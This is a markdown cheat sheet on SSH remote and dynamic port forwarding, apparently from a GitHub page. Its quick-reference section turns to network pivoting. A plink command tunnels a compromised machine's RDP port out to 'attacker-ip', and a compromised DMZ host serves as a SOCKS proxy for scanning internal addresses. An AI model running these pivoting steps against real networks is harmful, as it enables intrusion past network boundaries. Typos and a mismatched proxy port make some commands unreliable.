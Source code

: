 ```bash
ssh -R 9001:intra-ssh-server:22 user@home #work
ssh -p 9001 localhost #home
```

![](https://chamibuddhika.files.wordpress.com/2012/03/remoteportforwarding.jpg)

Add `GatewayPorts yes` to `sshd_config` to listening on all interfaces.

Allow public access to a local resource through a public server.

```bash
ssh -R 9000:localhost:3000 user@public_sever
```
```bash
sudo vim /etc/ssh/sshd_config
GatewayPorts yes
sudo service ssh restart
```

### Dynamic port forwarding

One local port for tunneling data to all remote destinations (SOCKS protocol)

```bash
ssh -D 9001 home
```
```bash
ssh -fND 9001 home
```
```
echo 'socks5 127.0.0.1 9999' >> /etc/proxychains.conf
```
```
curl http://192.168.122.4 && proxychains curl 192.168.122.4
```
![](https://chamibuddhika.files.wordpress.com/2012/03/dynamicportforwarding.jpg)

### Quick Reference

- Monitoring Tunnels: `netstat -tunelp`
- Avoid TTL: `-nNT`
- Creating reverse SSH client to tunnel-out remote desktop port
  - FROM remote non-routable machine
    ```bash
    pling -l root -pw password attacker-ip -R 3390:127.0.0.1:3389  
    # localhost 3389 to attacker ip 3389
    ```
  - FROM attacker's machine
    ```bash
    rdesktop localhost:3390
    ```
- SSH Dynamic Port Forwarding (compromised DMZ used to scan internal IPs)
  - Create local SOCS4 proxy: From attacker's machine (compromised DMZ)
    ```bash
    ssh -D 8080 root@DMZ-IP
